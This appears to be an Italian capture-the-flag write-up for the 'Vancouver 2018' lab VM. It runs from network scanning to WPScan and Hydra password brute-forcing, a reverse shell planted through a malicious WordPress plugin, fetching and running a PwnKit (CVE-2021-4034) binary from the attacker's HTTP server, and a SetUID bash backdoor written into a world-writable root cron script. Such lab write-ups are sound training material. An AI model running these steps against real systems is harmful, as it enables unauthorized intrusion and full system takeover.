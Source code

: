 # 🛡️ **Vancouver 2018 Exploitation Report**

## 📋 **Descrizione Generale**
Questa relazione racconta le quattro giornate intense di lavoro spese per sfruttare ogni singolo punto debole della VM assegnata. Non è stato un processo lineare, e spesso mi sono trovato a pensare di essermi incastrato in un vicolo cieco, ma alla fine ogni tentativo, errore e intuizione ha portato alla tanto desiderata shell **root**.

Questa storia è una combinazione di ostinazione, pazienza e, soprattutto, l'arte di sfruttare le vulnerabilità in posti che inizialmente sembravano insignificanti.

---

## ⚙️ **Configurazione dell'Ambiente**
1. **Importazione e Avvio della VM**:
   - Ho iniziato importando la VM in **VirtualBox/VMware**. L'avvio sembrava andare liscio, ma la vera battaglia stava per cominciare.

2. **Identificazione IP**:
   - Con una scansione rapida di rete usando **Nmap**, ho trovato l'indirizzo della macchina:
     ```bash
     nmap -sn 192.168.1.0/24
     ```
   - L'indirizzo IP della macchina target è emerso chiaramente: `192.168.1.170`.

---

## 🔍 **Fase di Scansione e Accesso Iniziale**

### 1️⃣ **Scansione delle Porte e Servizi**
Partiamo dalla base. Ho eseguito una scansione con **Nmap**, che mi ha rivelato un paio di servizi attivi:
- **Porta 80 (HTTP)**: un classico, un servizio web era in agguato.
- **Porta 21 (FTP)**: qualcosa di interessante da esplorare più a fondo.

Era solo l'inizio, ma già sapevo che FTP avrebbe rivelato qualcosa.

---

### 2️⃣ **Accesso FTP e la Prima Sorpresa**
Con un accesso FTP anonimo (chi è che lascia FTP così?), ho trovato il file **`users.txt.bk`**. 
Non è stato nulla di speciale, solo una lista di nomi utente, ma qui la pazienza è la chiave. Ogni pezzetto di informazione conta.

---

### 3️⃣ **WordPress: L'Inizio del Divertimento**
Inizialmente, con **Gobuster** non ero riuscito a individuare nulla di interessante. Tuttavia, controllando il file **robots.txt**, ho trovato un riferimento nascosto alla directory **/backup_wordpress**. 

Una volta scoperta questa directory, ho iniziato a mettere le mani nel servizio WordPress.

Per enumerare gli utenti e testare combinazioni di password comuni, ho lanciato **WPScan**:
   ```bash
   wpscan --url http://192.168.1.170/backup_wordpress --enumerate u --passwords rockyou.txt
   ```

Dopo lunghi minuti di attesa, ecco la combinazione perfetta:
- **Username**: `john`
- **Password**: `enigma`

Con queste credenziali, ho avuto accesso al pannello di WordPress. Qui ho caricato un **plugin malevolo** contenente una reverse shell. Finalmente, **www-data** era mio. Ma con un utente di basso livello, cosa potevo fare?

---

## 🔒 **Cracking dell'SSH Tramite Hydra**
La shell **www-data** sembrava una strada chiusa. (Ma più tardi eheh ci arriveremo) 
Prima di arrendermi in realtà con tutto quanto dalla frustrazione, ho deciso di provare un attacco **Hydra** sul servizio SSH usando la lista di utenti recuperati con poche speranze, finché mi imbatto in anne.

```bash
hydra -l anne -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.170
```

**EUREKA**:
- **Password**: `princess`

Con queste credenziali, ho effettuato il login SSH:
   ```bash
   ssh anne@192.168.1.170
   ```

A questo punto, la sorpresa: `anne` aveva i privilegi di **sudo** abilitati. Con un semplice comando:
   ```bash
   sudo su
   ```
   
Avevo ottenuto l'accesso **root** senza dover fare altro. Ma, ironia della sorte, non ho voluto fare **assolutamente nulla** con questo accesso root. 
Ho chiuso l'accesso SSH e sono tornato alla mia reverse shell caricata tramite  WordPress dove ero user di basso privilegio.

---

# 🏆 **Escalation dei Privilegi Alternativa**

E' stato qui che ho deciso di intraprendere nuove strade **SENZA AUTENTICAZIONE** che mi permettessero di raggiungere l'obiettivo, informandomi dunque sulle vulnerabilità della macchina target decisi di affrontare **PwnKit**. Ho sbattuto la testa nel tentativo di **compilare l'exploit** direttamente sulla macchina target e anche da Kali con le dipendenze necessarie teoricamente corrette. Dopo svariati errori e tentativi falliti, ho abbandonato l'idea della compilazione e sono passato alla soluzione più pratica: usare l'exploit **precompilato**.

---

### 1️⃣ **Kernel Exploit - PwnKit (CVE-2021-4034)**
Avevo sentito parlare di **PwnKit**. Era il momento di metterlo alla prova. 
Dopo aver scaricato il precompilato 32 bit:

1. Ho avviato un server HTTP sulla mia macchina Kali:
   ```bash
   python3 -m http.server 8080
   ```
2. Ho scaricato l'exploit precompilato sul target:
   ```bash
   wget http://192.168.1.165:8080/PwnKit32 -O /tmp/PwnKit32
   chmod +x /tmp/PwnKit32
   ```
3. Ho eseguito l'exploit:
   ```bash
   ./PwnKit32
   ```
4. **Magia pura**. Una volta eseguito, avevo accesso **root**:
   ```bash
   whoami
   ```
   **Output**: `root`.

![ROOTWITHPWNKIT](./ROOTWITHPWNKIT.png)

---

### 2️⃣ **Cron Job Exploit: L'Ultimo Colpo**
Per non farmi mancare nulla, già di mio sospettavo di cron jobs vulnerabili, dunque in seguito a indagine mirata ho individuato un cron job che eseguiva lo script **`/usr/local/bin/cleanup`** come **root**, ma con permessi **world-writable**. 

Ho pensato: "Wow, è stato lì tutto questo cazzo di tempo" e "It was him, it was him since the beginning".

1. Ho modificato lo script per creare una **backdoor**:
   ```bash
   echo "cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash" > /usr/local/bin/cleanup
   ```
2. Ho forzato l'esecuzione del cron job:
   ```bash
   /usr/local/bin/cleanup
   ```
3. Il risultato? Una shell **root** con **SetUID**:
   ```bash
   /tmp/rootbash -p
   ```

![CronJobs](./CronJobsSUCCESS.png)

---

## 🎯 **Conclusione**
Quattro giorni di lavoro, frustrazioni, caffè e ore perse a guardare uno schermo, ma alla fine è stato tutto ripagato.

### **Lezioni Imparate**:
- **Ogni piccolo dettaglio conta**. Un file FTP dimenticato può essere la chiave di tutto.
- **Non fermarsi ai primi ostacoli**. La shell **www-data** sembrava un vicolo cieco, ma invece ha aperto altre strade.
- **Mai sottovalutare i cron job**. Permessi sbagliati possono essere devastanti.
- **Verificare sempre i privilegi utente**. A volte la soluzione è più semplice di quanto sembri.
- **La pratica batte la teoria**. Saper aggirare problemi come compilazioni fallite è parte del gioco.


Questo lavoro è stato una vera battaglia contro la macchina, ma alla fine ho vinto e mi sono divertito un mondo!

![Success](./RootSuccess.png)

🎉 **Missione Completata con Successo!** 🚀

